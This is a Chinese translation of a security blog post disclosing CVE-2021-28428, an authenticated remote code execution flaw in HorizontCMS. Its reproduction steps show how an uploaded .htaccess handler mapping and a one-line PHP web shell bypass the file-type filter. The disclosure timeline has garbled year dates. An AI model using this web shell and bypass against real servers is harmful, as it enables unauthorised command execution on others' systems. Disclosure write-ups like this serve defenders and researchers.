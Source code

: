 # [CVE-2021–28428]在 HorizontCMS 中发现的已认证 RCE—第 2 部分(PHP 文件类型旁路)

> 原文：<https://infosecwriteups.com/bughunt-authenticated-rce-found-in-horizontcms-part-2-php-filetype-bypass-4580176223eb?source=collection_archive---------3----------------------->

![](img/26225a12ed369afd9f808c82988959f8.png)

# 介绍

正如我在第 1 部分[**【bug hunt】中谈到的，在 HorizontCMS —第 1 部分(恶意插件)**](https://bigb0ss.medium.com/bughunt-authenticated-rce-found-in-horizontcms-part-1-malicious-plugins-72846f4ab6fe) 博客中发现的经过身份验证的 RCE，我们找到了一种绕过打了补丁的 PHP 文件类型限制上传`.php`文件的方法。然而，执行上传的 PHP 文件并没有完成。

因此，我们想选择不同的路径来上传文件，并在应用程序上执行 PHP 代码。

# 媒体文件上传 RCE

如第 1 部分所述，原始文件上传漏洞([CVE-2020–27387](https://packetstormsecurity.com/files/160046/HorizontCMS-1.0.0-beta-Shell-Upload.html))已通过限制 PHP 扩展进行了补救；然而，我们发现可以通过上传任意的`.htaccess`和`*.hello`文件来绕过过滤器，从而执行 PHP 代码来获得 RCE。

## 问题的复制

1.  登录管理面板(`http://<HorizontCMS IP>/admin/login`)
2.  转到“媒体”→“文件”

![](img/161a39a50e01cc7e84994d43997ae324.png)

3.上传以下`test2.htaccess` →重命名文件名为`.htaccess`

```
**AddType application/x-httpd-php .hello**
```

![](img/3d14d00d2cc95b4b65321727560a75a8.png)![](img/ef642e79006ae2313128b207a8f66a4a.png)

4.上传另一个如下文件`test2.php` →将文件名重命名为`test.hello`

```
**<?php system($_GET['cmd']); ?>**
```

![](img/b3f887edc5137cf3c353a6df1505fd8a.png)![](img/961ca5086ea4f3192c6e06d1f4419e83.png)

然后，我们可以看到这两个文件都成功上传到了 HorizontCMS 应用程序的 `/storage`文件夹下。

![](img/37f98d2641f841c4a8214b087bfecd34.png)

5.前往`http://<HorizontCMS IP/storage/test.hello?cmd=`寻找 RCE

![](img/52d37d2b19f54a3e27521a2fba1bd7cd.png)

# 结论

这是我的好友迟的一个好主意:)，并且是在 PHP 应用程序上获得 RCE 的非常有效的文件上传攻击媒介。我们也向 HorizontCMS 报告了这个问题。

## 披露时间表

*   2011 年 3 月 16 日—向 HorizontCMS 报告错误
*   2011 年 3 月 16 日— HorizontCMS 承认该问题
*   2011 年 3 月 16 日——CVE 提出请求(MITRE)
*   05/22/21 — HorizonCMS 发布了安全修补程序
*   04/06/22—CVE—2021–28428 已分配